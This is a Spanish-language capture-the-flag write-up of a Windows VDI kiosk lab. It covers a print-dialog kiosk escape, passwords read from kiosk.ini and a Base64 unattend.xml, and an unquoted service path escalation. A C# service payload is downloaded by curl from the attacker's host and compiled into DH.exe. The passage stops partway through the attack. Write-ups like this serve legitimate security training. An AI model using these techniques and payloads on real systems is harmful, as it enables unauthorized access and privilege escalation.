


# Writeup: Kiosk (HackSmarter — Media)

Kiosk es una máquina **Media** que simula un entorno de Virtual Desktop Infrastructure (VDI) en Windows. El recorrido comienza con credenciales de bajo privilegio para el portal VDI, que permiten acceder por RDP a una sesión de kiosco restringida. Aprovechando una técnica clásica de escape de kiosco (el diálogo de impresión), se obtiene una shell como `vdiuser`. A partir de ahí, se enumeran archivos de configuración que contienen credenciales en texto plano, y se descubre un archivo `unattend.xml` que revela la contraseña de `svcuser`. Con esas credenciales se escala a `svcuser`, se identifica un **servicio con ruta no entrecomillada** que se ejecuta como `dh_admin`, y se explota para obtener acceso como ese usuario. Finalmente, se analiza un log de salud que revela una **DLL cargada desde un directorio escribible**, lo que permite un **DLL Hijacking** para obtener privilegios de Administrador.

---

## Fase 1: Reconocimiento

### 1.1 Escaneo de puertos

Realizamos un escaneo completo de puertos con Nmap:

```bash
sudo nmap -sS --min-rate 500 -p- -Pn -n -vv 10.1.146.139 -oG allPorts
```

**Resultado:**

```
PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack ttl 126
445/tcp  open  microsoft-ds  syn-ack ttl 126
3389/tcp open  ms-wbt-server syn-ack ttl 126
5985/tcp open  wsman         syn-ack ttl 126
8443/tcp open  https-alt     syn-ack ttl 126
```

**Observaciones:**

- **Puerto 80 (HTTP)**: IIS 10.0.
- **Puerto 445 (SMB)**: SMB, con firma no requerida.
- **Puerto 3389 (RDP)**: Servicio de Escritorio Remoto.
- **Puerto 5985 (WinRM)**: Windows Remote Management.
- **Puerto 8443 (HTTPS alt)**: Portal VDI.

### 1.2 Escaneo de servicios y versiones

```bash
nmap -sCV -Pn -p 80,445,3389,5985,8443 10.1.146.139 -oN targeted
```

**Resultados clave:**

```
PORT     STATE SERVICE        VERSION
80/tcp   open  http           Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server  Microsoft Terminal Services
| ssl-cert: Subject: commonName=EC2AMAZ-0536LUM
| rdp-ntlm-info:
|   Target_Name: EC2AMAZ-0536LUM
|   NetBIOS_Domain_Name: EC2AMAZ-0536LUM
|   NetBIOS_Computer_Name: EC2AMAZ-0536LUM
|   DNS_Domain_Name: EC2AMAZ-0536LUM
|   DNS_Computer_Name: EC2AMAZ-0536LUM
|   Product_Version: 10.0.17763
|_  System_Time: 2026-10-25T03:39:42+00:00
5985/tcp open  http           Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
8443/tcp open  ssl/https-alt?
| ssl-cert: Subject: commonName=darkhaven-vdi.corp
| Subject Alternative Name: DNS:darkhaven-vdi.corp, DNS:localhost, DNS:10.0.24.188
| Not valid before: 2026-03-07T21:30:32
|_Not valid after:  2031-03-07T21:40:32
| tls-alpn:
|   h2
|_  http/1.1
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required
|_clock-skew: mean: -1s, deviation: 0s, median: -1s
```

**Observaciones clave:**

- **Hostname**: `EC2AMAZ-0536LUM` (revelado por el certificado RDP y `rdp-ntlm-info`).
- **Dominio**: `EC2AMAZ-0536LUM` (máquina standalone, no unida a dominio).
- **Sistema operativo**: Windows Server 2019 (Build 17763).
- **Portal VDI**: `darkhaven-vdi.corp` en el puerto 8443.
- **SMB signing no requerido**: podría ser útil para ataques de relay, aunque no fue explotado en este caso.
- **WinRM abierto (5985)**: si obtenemos credenciales de un administrador, podremos obtener una shell limpiamente.

**Decisión estratégica:** Como tenemos credenciales iniciales (`vdiuser:VDI@DH2024!`) y el engagement está explícitamente enfocado en el entorno VDI, lo más lógico es probar el acceso por RDP, ya que el portal VDI se sirve a través de una sesión RDP.

---

## Fase 2: Acceso inicial por RDP

### 2.1 Conexión RDP

```bash
xfreerdp /v:10.1.146.139 /u:vdiuser /p:'VDI@DH2024!' /cert:ignore /sec:nla /w:1920 /h:1080
```

**Explicación de parámetros:**

- `/v:10.1.146.139`: Dirección IP del servidor RDP.
- `/u:vdiuser /p:'VDI@DH2024!'`: Credenciales proporcionadas.
- `/cert:ignore`: Ignora la validación del certificado del servidor (útil en entornos de laboratorio con certificados autofirmados).
- `/sec:nla`: Usa Network Level Authentication (NLA), que es el método de autenticación moderno de RDP.
- `/w:1920 /h:1080`: Resolución de la sesión.

### 2.2 La sesión de kiosco

Al conectarnos, se nos presenta una **sesión de kiosco** corporativa, no un escritorio completo de Windows. La sesión ejecuta una aplicación a pantalla completa que muestra un portal de autoservicio corporativo con funcionalidades como:

- Formularios de soporte de TI.
- Navegación de documentos.
- Paneles de estado del sistema.



**Nota del autor del laboratorio:** El usuario nos advierte que si aparece un mensaje de "Script Error" al conectar, se puede ignorar. Esto es intencional, ya que las VDIs suelen estar rotas en ciertos aspectos.

**¿Qué es una sesión de kiosco?**

Una sesión de kiosco es una configuración de Windows que **restringe el acceso del usuario a una sola aplicación o un conjunto limitado de aplicaciones**. Se implementa mediante:

- **Shell personalizado**: En lugar de `explorer.exe`, se ejecuta una aplicación específica como shell.
- **AppLocker / Software Restriction Policies**: Bloquean la ejecución de binarios no autorizados.
- **Group Policy**: Restringe el acceso a herramientas del sistema (CMD, PowerShell, Panel de Control, etc.).

El objetivo del kiosco es que el usuario no pueda salir de la aplicación para acceder al sistema operativo subyacente.

**El reto:** Encontrar un mecanismo que la aplicación del kiosco exponga de forma legítima (por ejemplo, un diálogo, un menú contextual, una funcionalidad de ayuda) que nos permita acceder al sistema operativo subyacente.

---

## Fase 3: Escape del kiosco mediante el diálogo de impresión

### 3.1 La técnica del diálogo de impresión

El kiosco es una aplicación que, en algún momento, permite **imprimir** contenido. La técnica clásica de escape de kioscos basados en aplicaciones con funcionalidad de impresión es la siguiente:

1. **Presionar `CTRL+P`** en la aplicación del kiosco. Esto abre el diálogo nativo de impresión de Windows.
2. En el diálogo de impresión, hacer clic en **"Find Printer…"** (Buscar impresora).
3. Este botón abre un **Explorador de archivos de Windows**, que es un componente del sistema operativo, no de la aplicación del kiosco.
4. Desde el Explorador de archivos, navegar a `C:\Windows\System32\`.
5. Localizar `cmd.exe` y ejecutarlo. Como el Explorador de archivos es un componente legítimo del sistema, Windows permite la ejecución.

**¿Por qué funciona?**

El diálogo de impresión es un componente del sistema operativo (parte de `comdlg32.dll`), no de la aplicación del kiosco. Cuando el kiosco permite imprimir, está invocando indirectamente componentes del sistema que no están sujetos a las restricciones del kiosco. El botón "Find Printer" es especialmente interesante porque **abre un shell de exploración de archivos completo**, que es una interfaz del sistema operativo.

Esta es una vulnerabilidad de **diseño de la configuración del kiosco**: no se ha bloqueado el diálogo de impresión ni sus funcionalidades secundarias.



### 3.2 Obtención de la shell

Después de navegar por el Explorador de archivos a `C:\Windows\System32\` y ejecutar `cmd.exe`, obtenemos una shell:

```cmd
C:\Windows\system32>whoami
ec2amaz-0536lum\vdiuser
```

**Hallazgo:** Tenemos una shell de CMD como el usuario `vdiuser`. La sesión de kiosco está rota, pero el usuario sigue siendo `vdiuser`.

---

## Fase 4: Enumeración y credenciales en el sistema de archivos

### 4.1 Exploración del sistema de archivos

Exploramos el directorio raíz `C:\`:

```cmd
C:\Windows>cd ..

C:\>dir
 Volume in drive C has no label.
 Volume Serial Number is 3C8B-D3F8

 Directory of C:\

03/07/2026  09:39 PM    <DIR>          DarkhavenKiosk
03/07/2026  12:29 PM    <DIR>          DarkhavenKioskApp
03/07/2026  08:00 PM    <DIR>          DarkhavenPortal
03/08/2026  01:17 PM    <DIR>          DarkhavenTools
03/07/2026  07:14 PM    <DIR>          DarkhavenVDI
11/14/2018  06:56 AM    <DIR>          EFI
03/07/2026  07:57 PM    <DIR>          inetpub
03/07/2026  12:32 PM    <DIR>          KioskData
05/13/2020  05:58 PM    <DIR>          PerfLogs
03/07/2026  12:29 PM    <DIR>          Program Files
07/12/2023  02:41 AM    <DIR>          Program Files (x86)
03/08/2026  01:33 PM    <DIR>          Users
03/07/2026  07:18 PM    <DIR>          VDIData
06/01/2026  08:22 PM    <DIR>          Windows
               0 File(s)              0 bytes
              14 Dir(s)   6,902,996,992 bytes free
```

**Observaciones:**

- Directorios personalizados de DarkHaven: `DarkhavenKiosk`, `DarkhavenKioskApp`, `DarkhavenPortal`, `DarkhavenTools`, `DarkhavenVDI`, `KioskData`, `VDIData`.
- Estos directorios son candidatos obvios para buscar información sensible.

### 4.2 Exploración de `C:\VDIData`

```cmd
C:\>cd VDIData
C:\VDIData>dir
```

**Resultado:**

```
 Directory of C:\VDIData

03/07/2026  07:18 PM    <DIR>          .
03/07/2026  07:18 PM    <DIR>          ..
03/07/2026  09:40 PM                23 flag1.txt
03/07/2026  09:39 PM                72 IT_Policy_v2.txt
03/07/2026  09:39 PM                72 Network_Map.txt
03/07/2026  09:39 PM                72 Q3_Report.txt
               4 File(s)            239 bytes
               2 Dir(s)   6,967,554,048 bytes free
```

**Hallazgo:** Encontramos la **primera flag** (`flag1.txt`) y varios archivos de documentación interna.

**Nota sobre el vector intencionado:** Según la nota del autor del laboratorio, la flag 1 está relacionada con el vector UNC del `workspace.hta` (que veremos más adelante), lo que sugiere que el escape por `CTRL+P` que usamos **es un vector no intencionado** (unintended path). El vector intencionado sería:

1. Analizar `C:\DarkhavenVDI\workspace.hta`.
2. Descubrir que la funcionalidad "Open Network Document" usa `WScript.Shell` para ejecutar rutas UNC.
3. Apuntar la ruta UNC a un servidor SMB controlado por el atacante para capturar el hash NTLM del usuario.
4. Crackear el hash y usarlo para acceder a la máquina.

En nuestro caso, el `CTRL+P` nos llevó directamente al sistema de archivos, lo cual es más rápido pero menos "intencionado".

### 4.3 Exploración de `C:\KioskData`

```cmd
C:\>cd KioskData
C:\KioskData>type kiosk.ini
```

**Resultado:**

```ini
; Darkhaven Kiosk Configuration
; Generated by IT department - do not modify
; Last updated: 2024-08-14

[Network]
proxy_server = proxy.darkhaven.tech
proxy_port   = 8080

[Portal]
portal_url   = http://web.ext.darkhaven.local/portal
timeout      = 30

[ServiceAccount]
; Used for background sync to management server
username = svc_monitoring
password = M0n1tor@gent#7!
domain   = darkhaven.tech

[Database]
; Read-only reporting DB connection
db_server   = sql.ext.darkhaven.local
db_name     = KioskReports
db_user     = sql_svc
db_password = SqLS3rvic3!

[Logging]
log_server = 10.10.10.4
log_port   = 514
```

**Hallazgo crítico:** El archivo `kiosk.ini` contiene **credenciales en texto plano**:

- **`svc_monitoring` / `M0n1tor@gent#7!`**: Cuenta de servicio para sincronización.
- **`sql_svc` / `SqLS3rvic3!`**: Credenciales de base de datos.

**Análisis:** Aunque el archivo advierte "do not modify" (no modificar), no hay ninguna restricción de lectura. Cualquier usuario con acceso al sistema puede leerlo. Esto es una mala práctica crítica: **las credenciales nunca deben almacenarse en texto plano en archivos de configuración accesibles**.

**Nota:** Las credenciales de `svc_monitoring` y `sql_svc` son para servicios externos (sincronización y base de datos), no para el sistema local, por lo que no nos sirven directamente para escalar en esta máquina. Sin embargo, son información sensible que debe ser reportada en el pentesting.

---

## Fase 5: Escalada a `svcuser` mediante `unattend.xml`

### 5.1 ¿Qué es `unattend.xml`?

`unattend.xml` es un archivo de respuesta utilizado por Windows para automatizar la instalación del sistema operativo. Contiene todas las respuestas a las preguntas del instalador de Windows: configuración regional, nombre del equipo, credenciales de la cuenta de administrador, **autologon**, etc.

**El problema de seguridad:** Los archivos `unattend.xml` suelen contener **credenciales de administrador o de autologon en texto plano** (o codificadas de forma trivial), y los equipos de TI a menudo **olvidan eliminarlos** después de la instalación.

**Ubicaciones típicas de `unattend.xml`:**

- `C:\Windows\Panther\unattend.xml` (el más común).
- `C:\Windows\Panther\Unattend\unattend.xml`.
- `C:\Windows\System32\Sysprep\unattend.xml`.
- `C:\unattend.xml`.

### 5.2 Lectura de `unattend.xml`

```cmd
c:\>cd c:\Windows\Panther
c:\Windows\Panther>dir
```

**Resultado:**

```
 Directory of c:\Windows\Panther

03/07/2026  02:39 PM    <DIR>          .
03/07/2026  02:39 PM    <DIR>          ..
03/04/2026  04:12 AM    <DIR>          actionqueue
03/04/2026  04:11 AM                68 Contents0.dir
03/04/2026  04:10 AM               926 DDACLSys.log
03/04/2026  04:11 AM             1,908 diagerr.xml
03/04/2026  04:11 AM             4,296 diagwrn.xml
03/04/2026  04:11 AM            24,494 MainQueueOnline0.que
10/25/2026  03:29 AM         1,216,512 setup.etl
03/04/2026  04:10 AM    <DIR>          setup.exe
03/04/2026  04:11 AM            85,100 setupact.log
03/04/2026  04:10 AM                 0 setuperr.log
03/04/2026  04:11 AM            16,640 setupinfo
03/07/2026  09:39 PM             1,302 unattend.xml
12/04/2023  03:22 PM    <DIR>          UnattendGC
              10 File(s)      1,351,246 bytes
               5 Dir(s)   7,930,998,784 bytes free
```

```cmd
c:\Windows\Panther>type unattend.xml
```

**Resultado:**

```xml
<?xml version="1.0" encoding="utf-8"?>
<unattend xmlns="urn:schemas-microsoft-com:unattend">
    <settings pass="oobeSystem">
        <component name="Microsoft-Windows-Shell-Setup"
            processorArchitecture="amd64"
            publicKeyToken="31bf3856ad364e35"
            language="neutral"
            versionScope="nonSxS">
            <AutoLogon>
                <Password>
                    <Value>UwB2AGMAXwBEAEgAIQAyADAAMgA0AA==</Value>
                    <PlainText>false</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <Username>svcuser</Username>
            </AutoLogon>
            <UserAccounts>
                <LocalAccounts>
                    <LocalAccount wcm:action="add">
                        <Password>
                            <Value>UwB2AGMAXwBEAEgAIQAyADAAMgA0AA==</Value>
                            <PlainText>false</PlainText>
                        </Password>
                        <n>svcuser</n>
                        <Group>Users</Group>
                        <Description>Darkhaven Kiosk Service Account</Description>
                    </LocalAccount>
                </LocalAccounts>
            </UserAccounts>
        </component>
    </settings>
</unattend>
```

### 5.3 Decodificación de la contraseña

El archivo contiene una contraseña codificada en Base64 con la etiqueta `<PlainText>false</PlainText>`, lo que indica que **no es texto plano** sino una codificación.

**La cadena:** `UwB2AGMAXwBEAEgAIQAyADAAMgA0AA==`

**Análisis:** La cadena parece Base64, pero al decodificarla como UTF-8 veremos caracteres extraños. Esto es porque Windows codifica las contraseñas en **UTF-16LE** (Little Endian), el formato nativo de Windows para cadenas de texto.

**Decodificación en Python:**

```bash
echo 'UwB2AGMAXwBEAEgAIQAyADAAMgA0AA==' | base64 -d | iconv -f UTF-16LE -t UTF-8
```

**Resultado:**

```
Svc_DH!2024
```

**Explicación:**

1. `base64 -d` decodifica la cadena Base64 a bytes.
2. `iconv -f UTF-16LE -t UTF-8` convierte los bytes de UTF-16LE (formato de Windows) a UTF-8 (formato legible).

**La contraseña de `svcuser` es `Svc_DH!2024`.**

**Análisis de la vulnerabilidad:** El archivo `unattend.xml` contiene la contraseña de la cuenta de autologon `svcuser` codificada únicamente en Base64, que es una codificación trivialmente reversible. Esto es equivalente a almacenar la contraseña en texto plano. Además, el archivo está en `C:\Windows\Panther\`, accesible para cualquier usuario.

---

## Fase 6: Escalada a `svcuser` mediante `runas`

### 6.1 ¿Por qué usar `runas`?

El CMD que obtuvimos del escape del kiosco está corriendo **dentro del contexto de la sesión del kiosco**. Aunque el usuario sea `vdiuser`, la sesión del kiosco puede tener restricciones adicionales (por ejemplo, restricciones de Group Policy a nivel de sesión, restricciones de tokens, etc.).

Al usar `runas` para iniciar un nuevo proceso con las credenciales de `svcuser`, estamos creando un **nuevo logon** en el sistema, lo que genera un **token de acceso nuevo** sin las restricciones de la sesión del kiosco. Esto es una técnica importante para "salir" de las restricciones de la sesión actual.

### 6.2 Ejecución de `runas`

```cmd
c:\Windows\Panther>runas /user:WORKGROUP\svcuser powershell.exe
Enter the password for WORKGROUP\svcuser: Svc_DH!2024
Attempting to start powershell.exe as user "WORKGROUP\svcuser" ...
```

**Explicación de parámetros:**

- `/user:WORKGROUP\svcuser`: Especifica el usuario local `svcuser` en el grupo de trabajo `WORKGROUP` (la máquina no está unida a dominio, por lo que el grupo de trabajo es `WORKGROUP` por defecto).
- `powershell.exe`: El programa a ejecutar. Elegimos PowerShell porque es más flexible que CMD para tareas de enumeración.

**Resultado:** Se abre una nueva ventana de PowerShell con las credenciales de `svcuser`.

### 6.3 Verificación del usuario

```powershell
PS C:\Windows\system32> whoami
ec2amaz-0536lum\svcuser
```

**Hallazgo:** Somos el usuario `svcuser`. Como este usuario fue creado por `unattend.xml` como una cuenta local con el grupo `Users`, no tiene privilegios administrativos, pero es un usuario diferente a `vdiuser` con acceso a sus propios archivos.

### 6.4 Enumeración del escritorio de `svcuser`

```powershell
PS C:\Users\svcuser\Desktop> dir
```

**Resultado:**

```
    Directory: C:\Users\svcuser\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         3/7/2026   9:40 PM             22 flag2.txt
```

**Hallazgo:** Encontramos la **segunda flag** (`flag2.txt`) en el escritorio de `svcuser`.

---

## Fase 7: Enumeración de servicios y detección del Unquoted Service Path

### 7.1 Listado de servicios

```powershell
PS C:\> sc.exe query
```

**Resultado (filtrado por servicios no estándar):**

```
SERVICE_NAME: DH_KioskMonitor
DISPLAY_NAME: Darkhaven Kiosk Monitor
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

**Hallazgo:** Encontramos un servicio personalizado **`DH_KioskMonitor`** que no es estándar de Windows.

### 7.2 Consulta de la configuración del servicio

```powershell
PS C:\> sc.exe qc DH_KioskMonitor
```

**Resultado:**

```
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: DH_KioskMonitor
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Program Files\Darkhaven Kiosk Services\DH Monitor Service\monitor.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : Darkhaven Kiosk Monitor
        DEPENDENCIES       :
        SERVICE_START_NAME : .\dh_admin
```

**Observaciones críticas:**

1. **`SERVICE_START_NAME : .\dh_admin`**: El servicio se ejecuta como el usuario local `dh_admin`, no como `SYSTEM` o `LocalService`. Esto es interesante porque `dh_admin` podría tener permisos especiales.
2. **`BINARY_PATH_NAME`**: `C:\Program Files\Darkhaven Kiosk Services\DH Monitor Service\monitor.exe`.

**El problema de seguridad:** La ruta del binario **no está entrecomillada** y contiene **espacios**.

### 7.3 ¿Qué es el Unquoted Service Path?

El **Unquoted Service Path** es una vulnerabilidad clásica de Windows que ocurre cuando un servicio tiene una ruta de binario **no entrecomillada** y **con espacios** en el nombre.

**¿Cómo resuelve Windows una ruta no entrecomillada?**

Cuando Windows intenta ejecutar el binario de un servicio con una ruta no entrecomillada como:

```
C:\Program Files\Darkhaven Kiosk Services\DH Monitor Service\monitor.exe
```

Windows **no** interpreta la ruta completa como un único archivo. En su lugar, prueba **cada prefijo de la ruta** como un posible ejecutable, en orden:

1. `C:\Program.exe`
2. `C:\Program Files\DH.exe`
3. `C:\Program Files\Darkhaven.exe`
4. `C:\Program Files\Darkhaven Kiosk.exe`
5. `C:\Program Files\Darkhaven Kiosk Services\DH.exe` ← **Este es el que nos interesa**
6. `C:\Program Files\Darkhaven Kiosk Services\DH Monitor.exe`
7. `C:\Program Files\Darkhaven Kiosk Services\DH Monitor Service\monitor.exe` ← Ruta real

**El ataque:** Si podemos crear un archivo ejecutable en una de las rutas intermedias (especialmente `C:\Program Files\Darkhaven Kiosk Services\DH.exe`), Windows lo ejecutará **como el usuario del servicio** (`dh_admin` en este caso) cuando el servicio se inicie.

**¿Por qué es peligroso?**

- El ejecutable se ejecuta con los privilegios del usuario del servicio (`dh_admin`).
- Si el usuario que controla el archivo tiene permisos de escritura en esa ruta, puede colocar un ejecutable malicioso.

### 7.4 Verificación de permisos de escritura

Para verificar si podemos escribir en `C:\Program Files\Darkhaven Kiosk Services\`, usamos `icacls`:

```powershell
PS C:\Program Files> icacls 'C:\Program Files\Darkhaven Kiosk Services'
```

**Resultado:**

```
C:\Program Files\Darkhaven Kiosk Services EC2AMAZ-0536LUM\vdiuser:(OI)(CI)(DENY)(W)
                                          EC2AMAZ-0536LUM\vdiuser:(OI)(CI)(DENY)(W)
                                          EC2AMAZ-0536LUM\vdiuser:(OI)(CI)(DENY)(W)
                                          EC2AMAZ-0536LUM\vdiuser:(OI)(CI)(DENY)(W)
                                          EC2AMAZ-0536LUM\vdiuser:(OI)(CI)(DENY)(W)
                                          EC2AMAZ-0536LUM\vdiuser:(OI)(CI)(DENY)(W)
                                          EC2AMAZ-0536LUM\kioskuser:(OI)(CI)(DENY)(W)
                                          EC2AMAZ-0536LUM\svcuser:(OI)(CI)(F)
                                          EC2AMAZ-0536LUM\kioskuser:(OI)(CI)(RX,D,WDAC,WO,DC)
                                          BUILTIN\Administrators:(I)(F)
                                          CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                                          NT AUTHORITY\SYSTEM:(I)(F)
                                          NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                                          BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                                          BUILTIN\Users:(I)(RX)
                                          BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                                          NT SERVICE\TrustedInstaller:(I)(F)
                                          NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                                          APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                                          APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
```

**Análisis de permisos:**

- **`vdiuser`**: `DENY(W)` — **no** puede escribir (aunque es el usuario del kiosco, está denegado explícitamente).
- **`kioskuser`**: `DENY(W)` — tampoco puede escribir.
- **`svcuser`**: `(OI)(CI)(F)` — **Full Control**. ¡`svcuser` puede escribir en el directorio!
- **`Administrators`**: `(I)(F)` — Full Control (heredado).
- **`SYSTEM`**: `(I)(F)` — Full Control (heredado).
- **`Users`**: `(I)(RX)` — Read & Execute.

**Hallazgo crítico:** `svcuser` tiene **Full Control** sobre `C:\Program Files\Darkhaven Kiosk Services\`. Esto significa que podemos crear archivos en ese directorio.

**¿Por qué `svcuser` tiene Full Control?** Esto es un error de configuración. Normalmente, `C:\Program Files\` requiere privilegios de administrador para escribir. Al darle Full Control a `svcuser`, se ha creado una vulnerabilidad de escalada de privilegios.

### 7.5 Preparación del ataque

El ataque consiste en:

1. **Crear un ejecutable `DH.exe`** en `C:\Program Files\Darkhaven Kiosk Services\`.
2. Este ejecutable será ejecutado por Windows como `dh_admin` cuando el servicio `DH_KioskMonitor` se inicie.
3. Como `DH.exe` se ejecuta como `dh_admin`, podemos hacer que realice acciones con los privilegios de `dh_admin`.

**¿Qué queremos hacer como `dh_admin`?**

Inicialmente, queremos **enumerar** qué puede acceder `dh_admin` que `svcuser` no puede. Específicamente, `C:\DarkhavenTools\logs` apareció en el listado raíz, pero no pudimos enumerarlo como `svcuser`. Si `dh_admin` tiene acceso, podemos usar `DH.exe` para volcar el contenido de ese directorio.

### 7.6 Primer payload: Enumeración como `dh_admin`

Creamos un **servicio de Windows** en C# que, al iniciarse, ejecuta un comando y escribe el resultado en `C:\Users\Public\out.txt`:

```csharp
using System;
using System.Diagnostics;
using System.ServiceProcess;

public class SVC : ServiceBase {
    protected override void OnStart(string[] args) {
        Process.Start("cmd.exe", "/c dir C:\\DarkhavenTools\\logs\\ > C:\\Users\\Public\\out.txt && type C:\\DarkhavenTools\\logs\\*.* >> C:\\Users\\Public\\out.txt");
        System.Threading.Thread.Sleep(2000);
        Stop();
    }
    static void Main() { ServiceBase.Run(new SVC()); }
}
```

**Análisis del código:**

- `ServiceBase`: Clase base para crear servicios de Windows en .NET.
- `OnStart`: Método que se ejecuta cuando el servicio se inicia.
- `Process.Start("cmd.exe", ...)`: Ejecuta un comando de CMD.
  - `dir C:\DarkhavenTools\logs\` → Lista el contenido del directorio.
  - `> C:\Users\Public\out.txt` → Redirige la salida al archivo `out.txt`.
  - `type C:\DarkhavenTools\logs\*.*` → Muestra el contenido de todos los archivos.
  - `>> C:\Users\Public\out.txt` → Añade la salida al archivo.
- `Thread.Sleep(2000)`: Espera 2 segundos para asegurarse de que el comando termine.
- `Stop()`: Detiene el servicio después de ejecutar el comando.
- `ServiceBase.Run(new SVC())`: Inicia el servicio.

### 7.7 Compilación en el objetivo

Descargamos el código C# en el objetivo y lo compilamos usando el compilador de .NET Framework que viene con Windows:

```powershell
PS C:\Program Files\Darkhaven Kiosk Services> curl 10.200.111.196:8000/svc.cs -o svc.cs
PS C:\Program Files\Darkhaven Kiosk Services> C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /out:DH.exe .\svc.cs
```

**Resultado:**

```
Microsoft (R) Visual C# Compiler version 4.8.3761.0
for C# 5
Copyright (C) Microsoft Corporation. All rights reserved.

This compiler is provided as part of the Microsoft .NET Framework, but only supports language versions up to C# 5, which is no longer the latest version. For compilers that support newer versions of the C# programming language, see http://go.microsoft.com/fwlink/?LinkID=533240
```

**Análisis:**

- `curl`: Descarga el archivo `svc.cs` desde nuestro servidor HTTP.
- `csc.exe`: Compilador de C# de .NET Framework 4.0, incluido por defecto en Windows.
- `/out:DH.exe`: Nombre del ejecutable de salida (`DH.exe`).
- `.\svc.cs`: Archivo de código fuente a compilar.

**Resultado:** Se crea `DH.exe` en `C:\Program Files\Darkhaven Kiosk Services\`.

### 7.8 Ejecución del ataque

Reiniciamos el servicio `DH_KioskMonitor` para que Windows ejecute nuestro `DH.exe` (por el Unquoted Service Path) como `dh_admin`:

```powershell
